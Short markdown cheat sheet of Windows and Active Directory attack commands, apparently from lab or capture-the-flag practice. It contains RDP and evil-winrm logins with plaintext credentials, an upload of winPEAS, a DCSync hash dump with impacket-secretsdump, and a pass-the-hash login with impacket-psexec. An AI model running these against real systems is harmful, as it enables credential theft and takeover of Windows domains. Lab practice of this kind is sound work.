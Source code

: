 #Windows Commands

Used to gain access through RDS.
```
xfreerdp /v:10.10.29.125 /u:thm-unpriv /p:Password321 +clipboard
```

####Evil-WinRm
```
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'

upload ~/windows_programs/winPEASany.exe
```

####DCSync Attack
```
impacket-secretsdump egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

####Pass-the-Hash attack
```
impacket-psexec egotistical-bank.local/administrator@10.10.10.175 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```
